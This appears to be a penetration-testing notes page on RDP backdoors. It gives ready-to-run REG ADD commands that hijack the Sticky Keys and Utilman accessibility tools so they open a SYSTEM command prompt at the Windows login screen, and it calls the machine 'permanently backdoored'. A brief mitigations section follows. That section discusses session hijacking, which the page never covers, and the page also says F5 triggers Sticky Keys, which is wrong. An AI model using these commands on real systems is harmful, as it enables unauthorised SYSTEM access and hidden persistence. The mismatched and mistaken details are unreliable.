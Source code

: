 # RDP backdoors

{% embed url="https://github.com/gentilkiwi/mimikatz/releases" %}

## <mark style="color:red;">Sticky Keys</mark>

Windows supports a feature called Sticky Keys, which is an Accessibility feature built into the OS and available pre-logon (at the login screen, either via a physical console or via Remote Desktop). It runs as SYSTEM.

If you set Sethc.exe (Sticky Keys) to spawn cmd.exe, you have a backdoor you can use if you are locked out of a box — you have SYSTEM access, so you can do anything even without an account. You can do this by either replacing sethc.exe with cmd.exe — this requires a reboot, and physical access to the box — or just set the registry key using the command below.

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d “C:\windows\system32\cmd.exe” /f
```

The box is now permanently backdoored. Just Remote Desktop in and at the login screen, hit F5 a bunch of times.

## <mark style="color:red;">Utilman</mark>

t’s exactly the same as StickyKeys, just trojan utilman.exe instead. At the login screen, press Windows Key+U, and you get a cmd.exe window as SYSTEM.

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d “C:\windows\system32\cmd.exe” /f
```

## <mark style="color:red;">Mitigations</mark>

{% embed url="https://github.com/ztgrace/sticky_keys_hunter" %}

**Group Policy** — use Group Policy to log off disconnected sessions, either immediately or soon after the user disconnects. This will NOT be popular in IT environments — but the risk is now completely real that they can very easily — with one built in command — be hijacked more or less silently in the real world. I would also log off idle sessions.

